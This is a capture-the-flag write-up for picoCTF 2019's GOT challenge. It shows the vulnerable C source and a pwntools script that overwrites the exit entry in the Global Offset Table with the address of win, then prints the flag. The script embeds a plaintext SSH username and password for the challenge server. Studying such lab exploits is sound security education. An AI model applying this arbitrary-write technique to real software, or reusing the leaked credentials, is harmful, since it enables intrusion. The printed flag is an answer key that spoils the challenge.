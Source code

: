# Problem
You can only change one address, here is the problem: [program](https://2019shell1.picoctf.com/static/a8947d70f6b2c0cb53853c5e20abb021/vuln). It is also found in /problems/got_3_4ba3deeda2ea9b203c6a6425f183e7ed on the shell server. [Source](https://2019shell1.picoctf.com/static/a8947d70f6b2c0cb53853c5e20abb021/vuln.c).

## Hints:

Just change the address of the appriopiate function in the GOT table...

## Solution:

Lets download the files:
```bash
wget https://2019shell1.picoctf.com/static/a8947d70f6b2c0cb53853c5e20abb021/vuln
wget https://2019shell1.picoctf.com/static/a8947d70f6b2c0cb53853c5e20abb021/vuln.c
```

First, we investigate the source
```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

#define FLAG_BUFFER 128

void win() {
  char buf[FLAG_BUFFER];
  FILE *f = fopen("flag.txt","r");
  fgets(buf,FLAG_BUFFER,f);
  puts(buf);
  fflush(stdout);
}


int *pointer;

int main(int argc, char *argv[])
{
  
   puts("You can just overwrite an address, what can you do?\n");
   puts("Input address\n");
   scanf("%d",&pointer);
   puts("Input value?\n");
   scanf("%d",pointer);
   puts("The following line should print the flag\n");
   exit(0);
}
```

We just need to override the address of ```exit``` with the address of ```win```.


Lets write a python script:
```python
#!/usr/bin/env python

from pwn import *


debug = 0

user = 'RoeeSefi'
pw = 'UTTE9CQN2idX28W'

if debug:
  p = process('./vuln')
else:
  s = ssh(host = '2019shell1.picoctf.com', user=user, password=pw)

  s.set_working_directory('/problems/got_3_4ba3deeda2ea9b203c6a6425f183e7ed')
  p = s.process('./vuln')

binary = ELF('./vuln')

exit_address = binary.got['exit']
win_address  = binary.symbols['win']

log.info('Found "{}" address ({} = {})'.format('win', win_address, hex(win_address)))
log.info('Found "{}" address ({} = {})'.format('exit', exit_address, hex(exit_address)))

print p.recvuntil('Input address\n')
log.info('Sending: {}'.format(exit_address))
p.sendline('{}'.format(exit_address))

print p.recvuntil('Input value?\n')
log.info('Sending: {}'.format(win_address))
p.sendline('{}'.format(win_address))

print p.recvall()
```

Flag: picoCTF{A_s0ng_0f_1C3_and_f1r3_1ef72b2d}